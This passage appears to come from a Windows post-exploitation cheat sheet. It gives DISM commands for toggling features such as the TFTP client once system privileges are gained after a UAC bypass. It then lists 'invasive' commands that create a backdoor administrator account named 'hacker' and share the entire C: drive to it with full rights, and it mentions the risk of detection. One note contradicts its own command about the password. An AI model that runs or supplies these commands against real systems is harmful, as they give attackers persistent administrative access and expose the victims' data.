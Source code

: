 Vista SP1/7/2008/2008R2 (x86 & x64)

#### Enable/Disable Windows features with Deployment Image Servicing and Management (DISM):

*Note* Works well after bypassuac + getsystem (requires system privileges)

*Note2* For Dism.exe to work on x64 systems, the long commands are necessary


#### To list features which can be enabled/disabled:

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /get-features

#### To enable a feature (TFTP client for example):

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /enable-feature /featurename:TFTP

#### To disable a feature (again TFTP client):

%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /disable-feature /featurename:TFTP

#### Invasive or Altering Commands


These commands change things on the target and can lead to getting detected
Command
```
net user hacker Passw0rd123! /add

Creats a new local (to the victim) user called ‘hacker’ with the password of ‘hacker’

net localgroup administrators /add hacker

or

net localgroup administrators hacker /add

Adds the new user ‘hacker’ to the local administrators group
```

Share the C drive (you can specify any drive) out as a Windows share and grants the user ‘hacker’ full rights to access, or 
modify anything on that drive.

```
net share nothingdollar_sign=C:\ /grant:hacker,FULL /unlimited
```


One thing to note is that in newer (will have to look up exactly when, I believe since XP SP2) windows versions, share 
permissions and file permissions are separated. Since we added our selves as a local admin this isn’t a problem but it is 
something to keep in mind
